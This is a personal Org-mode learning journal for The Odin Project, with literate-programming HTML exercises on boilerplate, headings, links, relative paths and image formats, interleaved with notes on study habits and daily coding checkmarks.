3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
